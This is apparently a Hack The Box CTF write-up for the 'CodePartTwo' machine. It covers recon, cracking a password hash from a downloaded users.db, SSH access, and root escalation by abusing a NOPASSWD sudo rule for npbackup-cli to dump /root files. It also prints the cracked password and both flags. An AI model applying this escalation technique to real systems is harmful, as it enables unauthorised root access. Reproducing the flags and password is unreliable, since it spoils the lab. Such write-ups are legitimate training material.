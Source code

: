```yaml
---
layout: post
title: HTB-CodePartTwo
date: 2025-09-20
tags: [HTB]
category: [CTF-Writeups]
---
```


# HTB — CodePartTwo: Quick Writeup

**IP:** `10.10.11.82`  
**Difficulty:** Easy  
**Skills:** enumeration • database extraction • password cracking • SSH access • sudo misconfiguration

> **Summary:** Services on 22/8000/8080. A downloadable `users.db` from the web app contained a hash for user `marco`. The hash cracked to `sweetangelbabylove`, allowing SSH access as `marco` to capture the user flag. Root was obtained by abusing a NOPASSWD `sudo` entry for `/usr/local/bin/npbackup-cli` by modifying a backup config to point to `/root/` and using the tool to dump `root.txt`.

---

## Table of contents
1. [Recon (nmap)](#recon-nmap)  
2. [User: web & DB analysis](#user)  
3. [Root: privilege escalation (sudo misconfiguration)](#root)  
4. [Flags](#flags)  

---

## Recon (nmap)

**Command used**

```bash
nmap 10.10.11.82
```

**Result**

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
8080/tcp open  http-proxy
```

---

## User

### Steps
1. Open: `http://10.10.11.82:8080`  
2. Download `users.db` from the web application  
3. Inspect `users.db` and identify `marco` as a user with a stored password hash  
4. Crack the hash (e.g., using CrackStation or any hash lookup/cracking tool) — recovered password: `sweetangelbabylove`  
5. SSH in as `marco` and retrieve the user flag

### Example commands

SSH in:

```bash
ssh marco@10.10.11.82
# password: sweetangelbabylove
```

**User flag**

```bash
cat /home/marco/user.txt
# a70e5426127f3a9c24398209b6d60066
```

---

## Root

### Discovery
Check `sudo` privileges for `marco`:

```bash
sudo -l
```

Example output (relevant line):

```text
(ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

This indicates `marco` can run `/usr/local/bin/npbackup-cli` via `sudo` without a password. `npbackup-cli` accepts a config file (`-c`) which specifies paths to back up/dump — if the config can be controlled, we can point it to `/root/root.txt` and use `--dump` to output the file.

### Exploit (steps)

1. Copy the shipped config so you can edit it:

```bash
cp /usr/local/bin/npbackup.conf ~/r.conf
```

2. Edit `r.conf` (example using `nano`):

```bash
nano ~/r.conf
# change path entries from /home/app/app/  to /root/
```

3. Run the backup/dump using sudo and the modified config:

```bash
sudo /usr/local/bin/npbackup-cli -c ~/r.conf -b

sudo /usr/local/bin/npbackup-cli -c ~/r.conf --dump /root/root.txt
# ff2b9fdc1181447222715708ed3e0454
```

---

## Flags

- **User:** `a70e5426127f3a9c24398209b6d60066`  
- **Root:** `ff2b9fdc1181447222715708ed3e0454`

---

*This writeup documents a CTF box and is for educational purposes only. Do not perform these actions against systems you do not own or have permission to test.*
